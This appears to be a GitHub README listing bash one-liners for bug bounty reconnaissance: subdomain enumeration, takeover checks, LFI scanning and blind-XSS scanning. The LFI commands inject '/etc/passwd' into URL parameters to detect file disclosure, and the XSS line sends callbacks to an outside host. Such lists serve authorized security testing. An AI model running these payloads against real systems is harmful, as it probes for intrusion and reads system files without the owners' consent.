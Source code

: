 # 🛰️ ReconToolkit

A curated list of powerful one-liners and tools for **Subdomain Enumeration**, **Subdomain Takeover Detection**, **LFI Scanning**, and **XSS Testing**. Perfect for bug bounty hunters and pentesters.

## Subdomain Enumeration

### Juicy Subdomains
```bash
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1 \
| grep -Ei 'api|dev|stg|test|admin|demo|stage|pre|vpn'
```

### Online Intelligence Sources
- **BufferOver.run**
```bash
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
```

## Subdomain Takeover Detection
```bash
cat subs.txt | xargs -P50 -I% bash -c 'dig % | grep CNAME' \
| awk '{print $1}' | sed 's/\.$//g' \
| httpx -silent -status-code -cdn -csp-probe -tls-probe
```

## LFI Payload Scanning

### Using `gf`, `httpx`, and `/etc/passwd` filter
```bash
cat targets.txt | gau | gf lfi | httpx -paths lfi_wordlist.txt -threads 100 \
-random-agent -x GET,POST -tech-detect -status-code -follow-redirects \
-mc 200 -mr "root:[x*]:0:0:"
```

### With `qsreplace` for quick injection
```bash
cat targets.txt | gau | gf lfi | qsreplace "/etc/passwd" \
| xargs -I% -P25 sh -c 'curl -s "%" | grep -q "root:x" && echo "[+] VULN: %"'
```

## One-Liner XSS Scanner
```bash
subfinder -dL domainlist1.txt | dnsx | shuf | (gau || hakrawler) | anew \
| egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" \
| urless | nilo | dalfox pipe -b https://xss.hunter/?q=1
```

## Shodan CLI
```bash
shodan search 'Ssl.cert.subject.CN:"target.com"' --fields ip_str | anew ips.txt
```

## 🛠 Requirements
- [`subfinder`](https://github.com/projectdiscovery/subfinder)
- [`dnsx`](https://github.com/projectdiscovery/dnsx)
- [`httpx`](https://github.com/projectdiscovery/httpx)
- [`gf`](https://github.com/tomnomnom/gf)
- [`qsreplace`](https://github.com/tomnomnom/qsreplace)
- [`dalfox`](https://github.com/hahwul/dalfox)
- [`shodan`](https://cli.shodan.io)
- `jq`, `curl`, `nmap`, `awk`, `sed`
```
## 📄 License
MIT
> Made with ❤️ for recon & hacking by [@nav1n0x](https://github.com/ifconfig-me)
```

## Credit Goes to
1. @TheMsterDoctor1 https://x.com/TheMsterDoctor1/status/1905471835128373665
